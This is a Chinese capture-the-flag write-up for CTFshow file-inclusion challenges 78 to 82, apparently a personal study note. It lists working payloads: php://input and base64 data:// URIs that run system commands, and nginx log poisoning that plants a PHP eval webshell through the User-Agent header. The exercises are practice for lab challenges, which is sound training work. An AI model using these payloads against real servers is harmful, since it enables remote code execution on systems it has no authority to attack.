 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/CTFshow_文件包含.md","permalink":"/安全/靶场/CTFshow_文件包含/","title":"CTFshow_文件包含"}
---
```


# WEB 78
![Pasted image 20240808142137.png](/img/user/picture/Pasted%20image%2020240808142137.png)
这里对文件包含没有任何限制，所以我们利用php伪协议来执行代码
`?file=php://input`
`<?php system('ls');?>`
![Pasted image 20240808142836.png](/img/user/picture/Pasted%20image%2020240808142836.png)
发现有`flag.php`
继续读取`<?php system('cat flag.php');?>`
查看网页源码得到flag
![Pasted image 20240808142934.png](/img/user/picture/Pasted%20image%2020240808142934.png)


# WEB 79

![Pasted image 20240808143458.png](/img/user/picture/Pasted%20image%2020240808143458.png)
这里限制了字符`php`
所以我们上一关的payload就没法使用了
我们可以利用`data://`来进行代码执行

 将`<?php system('ls ');?>`编码
 `file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAnKTs/Pg==`
注意，这里不能有`+`
发现还是`flag.php index.php`

将`<?php system('tac flag.php');?>`编码
`file=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==`
得到flag
![Pasted image 20240808144944.png](/img/user/picture/Pasted%20image%2020240808144944.png)


# WEB 80 日志包含

![Pasted image 20240808145536.png](/img/user/picture/Pasted%20image%2020240808145536.png)
此题过滤了`php`和`data`，

可以包含日志文件`?file=/var/log/nginx/access.log`
日志文件中包含了 url以及ua信息等，这里ua最容易控制，抓包改ua，写入一句话即可。如下第三行
```http
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: <?php @eval($_GET[1]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
```

注意：插入的后门代码最好加上@让他不要报错

`?file=/var/log/nginx/access.log&1=system("tac fl0g.php");`

![Pasted image 20240808154207.png](/img/user/picture/Pasted%20image%2020240808154207.png)


# WEB 81

![Pasted image 20240808155528.png](/img/user/picture/Pasted%20image%2020240808155528.png)
和上一题思路差不多


# WEB 82
![Pasted image 20240808155957.png](/img/user/picture/Pasted%20image%2020240808155957.png)
